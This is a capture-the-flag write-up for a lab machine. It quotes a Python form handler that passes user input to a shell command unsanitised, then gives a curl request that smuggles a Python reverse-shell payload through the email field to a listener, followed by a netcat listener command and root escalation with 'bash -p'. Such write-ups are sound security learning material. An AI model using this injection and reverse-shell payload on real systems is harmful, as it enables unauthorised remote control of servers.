 Looking though this file, we find nothing of interest. 
There is a strange import from something called form.
Trying to request form.py results in a much more interesting file  

```python
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1
		else:
...
```

Importantly, this code appears to execute `dig txt {domain}`
The code does no form of sanitisation on this input which means its ideal for an RCE!

Starting a listener server with netcat `nc -lvnp 9001`, we start to make attempts.
No hits on using bash or nc for a reverse shell.
Attempting to spawn a shell using python works however!
Using curl we can easily spawn a shell session

```bash
 curl --location 'http://only4you.htb/' \
                                      --form 'email="fake@gmail.com && python3 -c 
'\''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.90\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'\''"' \
                                      --form 'subject="test"' \
                                      --form 'message="test"'
```

Now that I have a reverse shell, i run linpeas to enumerate the system.

While enumerating, i find that `/bin/bash` has a privilege escalation vun.
running `bash -p`
This dropped me straight into root and I collected my flags.

## Post Comments

I don't believe my PVE exploit was intended as i bypassed a lot of the box. 
Furthermore, testing for this PVE after the box was reset, I couldn't find it again.

I might go back and attempt this box again because ended up not using a lot of the services such as:
- ssh
-  mysql
- neo4j

and it might be interesting to see how they they were involved.

Overall i found the box pretty simple and short. (probably due to unintentional solution)